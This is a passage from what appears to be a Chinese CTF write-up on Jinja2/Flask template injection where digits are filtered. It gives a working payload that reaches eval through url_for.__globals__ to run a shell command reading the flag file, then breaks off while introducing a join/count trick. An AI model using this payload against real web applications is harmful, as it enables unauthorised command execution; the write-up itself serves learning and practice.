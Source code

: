 [![在这里插入图片描述](assets/1698900310-c476c5b1e7b97e221b2165409b076622.png)](https://storage.tttang.com/media/attachment/2022/08/14/4e82e130-4871-476e-b476-af0069b77850.png)  
过滤了数字，这个比较简单了就，我们可以利用不涉及数字的，直接就绕过了  
这里给出一个 payload

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[![在这里插入图片描述](assets/1698900310-8ff6f88a80013eacd9cdbf28c322e252.png)](https://storage.tttang.com/media/attachment/2022/08/14/e2be2ab1-c2bf-4f4e-9841-cf239ae857c7.png)  
不过正常的思路的话应该是用 join 进行拼接后，加上 count，从而得到想得到的数字，举个例子
